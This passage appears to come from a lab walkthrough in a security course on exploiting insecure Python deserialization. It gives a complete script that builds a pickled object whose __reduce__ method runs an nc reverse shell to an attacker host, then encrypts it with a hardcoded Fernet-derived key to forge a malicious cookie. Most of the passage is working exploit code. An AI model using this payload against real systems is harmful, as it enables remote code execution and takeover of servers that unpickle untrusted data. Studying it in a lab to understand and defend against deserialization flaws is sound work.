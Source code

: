 From the section `Exploiting Python Deserialization - Remote Code Execution` of the module, students know that if a pickled object is unpickled and it contains a definition for `__reduce__`, it will be used to restore the original object, therefore, students need to abuse this to return a callable object with parameters that will result in command execution. Students need to define a class named `RCE` and override `__reduce__` to execute an `nc` reverse shell command:

Code: python

```python
class RCE():
	def __reduce__(self):
		return os.system, ("nc -nv PWNIP PWNPO -e /bin/bash",)
```

The dummy "note" that will be used to generate the malicious revere shell cookie will assign the item "Date" with what the function `RCE` returns, subsequently, it will be serialized with `pickle.dumps` and then encrypted with the function `encrypt` of the class `encryptAES`, utilizing the password `@s3cur3P!ck13K3y`:

Code: python

```python
note = {"Title":"","Text":"","Date":RCE()}

s = pickle.dumps(note)
e = encryptAES(s).encrypt()
```

The final Python script to generate the malicious cookie is (the `decrypt` function of the class `encryptAES` is unnecessary and can be deleted):

Code: python

```python
#!/usr/bin/python3

import os
import pickle
import base64
import hashlib
from cryptography.fernet import Fernet

SECRET_KEY = '@s3cur3P!ck13K3y'

class encryptAES:
    def __init__(self, data):
        self.data = data
        self.key = base64.b64encode(hashlib.sha256(SECRET_KEY.encode()).digest()[:32])
        self.f = Fernet(self.key)
    def encrypt(self):
        encrypted = self.f.encrypt(self.data)
        return base64.b64encode(encrypted).decode()
    def decrypt(self):
        encrypted = base64.b64decode(self.data)
        return self.f.decrypt(encrypted)

class RCE():
	def __reduce__(self):
		return os.system, ("nc -nv PWNIP PWNPO -e /bin/bash",)

note = {"Title":"","Text":"","Date":RCE()}

s = pickle.dumps(note)
e = encryptAES(s).encrypt()
print(e)
```
